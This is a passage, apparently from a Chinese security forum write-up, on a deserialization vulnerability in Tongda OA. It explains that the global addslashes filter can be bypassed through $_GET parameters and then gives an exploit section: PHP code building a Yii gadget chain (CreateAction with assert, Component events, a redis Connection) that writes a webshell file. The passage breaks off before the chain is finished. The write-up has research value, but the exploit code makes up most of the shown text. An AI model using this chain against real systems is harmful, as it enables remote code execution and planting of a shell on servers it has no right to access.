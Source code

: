 再看到上面$data不为false就执行反序列化触发漏洞

通达OA是全局变量过滤的，反序列化的payload里面会有双引号要被转义，这是需要解决的问题

相关代码在\\inc\\common.inc.php

![11.png](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-f1337a3335330421bb4c3e878619e49f5be47ce3.png)

好在代码里可以看到\_GET这些是不经过addslashes函数的，只要取这些当作参数就可以绕过了

0x04 EXP
--------

```php
<?php

namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct()
        {
            $this->checkAccess = "assert";
            $this->id = "file_put_contents('a.php','TONGDA')";
            //代码执行写shell
        }
    }
}

namespace yii\base{

    use yii\rest\CreateAction;
    class Component{
        private $_events = [];

        public function __construct()
        {
             $this->_events = ["afterOpen" => [[[new CreateAction(), "run"], "run"]]];
            //使用CreateAction的run函数
        }
    }
}

namespace yii\redis{
    use yii\base\Component;
    class Connection extends Component{
        public $redisCommands;
        public $database = null;
        public $port = 0;
        private $_socket = false;

        public function __construct()
        {
            $this->redisCommands = ["CLOSE CURSOR"];
            //绕过__call内判断
            $this->database = null;
            //正常情况database=0
            //要改为null不然在open里面会走进判断，dataTimeout和password本身就为null所以不用设置
            $this->port = 80;
            //这里需要修改为可以访问的端口，靶机里面80是开放的所以就写80了，按实际情况改
            parent::__construct();
            //上面说到过Component里面有_events，调用父类构造函数将Component的_events赋值

        }
    }
```